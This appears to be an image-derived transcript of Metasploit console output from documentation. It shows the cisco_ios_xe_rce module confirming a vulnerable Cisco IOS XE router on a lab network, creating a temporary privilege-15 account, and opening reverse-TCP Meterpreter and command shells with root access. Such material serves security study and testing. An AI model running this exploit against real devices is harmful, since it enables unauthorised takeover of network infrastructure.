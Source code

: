 ```
Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/cisco_ios_xe_rce) > check
[+] 192.168.86.59:443 - The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'lwWQIDaS' with password 'dADCGJpS'
[*] Removing user 'lwWQIDaS'
[*] Sending stage (3045380 bytes) to 192.168.86.59
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.59:56554) at 2023-11-06 16:41:06 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : router
OS           :  (Linux 4.19.64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 0
target => 0
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/shell/reverse_tcp
payload => cmd/linux/http/x64/shell/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'NjAmOioM' with password 'tOHjWGyw'
[*] Removing user 'NjAmOioM'
[*] Sending stage (38 bytes) to 192.168.86.59
[*] Command shell session 5 opened (192.168.86.42:4444 -> 192.168.86.59:56598) at 2023-11-06 16:44:48 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux router 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.59 - Command shell session 5 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```
